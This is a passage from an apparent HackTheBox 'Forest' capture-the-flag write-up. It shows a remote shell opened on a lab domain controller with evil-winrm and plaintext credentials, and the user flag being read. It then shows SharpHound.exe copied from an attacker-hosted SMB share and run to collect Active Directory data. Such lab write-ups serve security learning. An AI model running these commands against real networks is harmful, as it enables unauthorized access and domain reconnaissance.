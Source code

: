 ```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest/shares]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p "s3rvice"     

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/25/2023   4:46 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
5298ea3ec17f98803cea32747709062f
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> 

```

- Since this is domain controllers, i wont rush into any fancy windows exploitaion at this moment
- Insteady i would enumerate other users in the domain by using bloodhound

# KERBEROS ENUMERATION
- At first writeup of [Active Hackthebox](https://blackninja23.github.io/Active-HTB/), i was using bloodhound-python but for this Forest hackthebox, i will use [Sharphound](https://github.com/BloodHoundAD/SharpHound/releases). At this moment, i will use [Sharphound v1.1.0](https://github.com/BloodHoundAD/SharpHound/releases/tag/v1.1.0) in which in description say that is use BloodHound 4.2
- Make sure version of bloodhound is same as what Sharphound release support at that time and if you want download, kindly check [Active Hackthebox](https://blackninja23.github.io/Active-HTB/) writeup
- I will start smbserver from my local computer

```
impacket-smbserver Q . -smb2support
```
- let dump data from kerberos use SharpHound.exe after transfer it from local computer

```
copy \\10.10.14.81\\Q\\SharpHound.exe .
.\SharpHound.exe --CollectionMethods All
```
- Output
